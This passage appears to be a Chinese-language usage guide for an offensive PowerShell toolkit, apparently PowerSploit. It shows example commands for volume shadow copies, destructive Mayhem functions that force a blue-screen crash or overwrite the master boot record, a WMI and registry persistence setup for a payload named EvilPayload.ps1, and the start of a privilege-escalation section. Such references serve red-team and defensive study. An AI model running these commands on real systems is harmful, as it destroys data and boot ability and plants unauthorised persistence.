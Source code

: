 **示例**

```powershell
New-VolumeShadowCopy -Volume C:\
```

##### Mount-VolumeShadowCopy
挂载卷影拷贝

**示例**

```powershell
Mount-VolumeShadowCopy -Path C:\Users\haha -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

##### Remove-VolumeShadowCopy
删除卷影拷贝

**示例**

```powershell
Remove-VolumeShadowCopy -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

### Mayhem
将此模块放在`%Systemroot%/System32\WindowsPowerShell\v1.0\Modules`
或
`$Env:HomeDrive$Env:HOMEPATH\Documents\WindowsPowerShell\Modules`
####  Set-CriticalProcess
退出powershell时使系统蓝屏

**示例**

```powershell
Set-CriticalProcess
```

立刻退出

```powershell
Set-CriticalProcess -ExitImmediately
```

####   Set-MasterBootRecord
覆写主引导记录

**示例**

```powershell
Set-MasterBootRecord -BootMessage "test"
```

### Persistence
同mayhem放置位置

**示例**

```powershell
$ElevatedOptions = New-ElevatedPersistenceOption  -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions
```
### Privesc
#### Get-System
需要运行在STA模式下，启动参数-STA
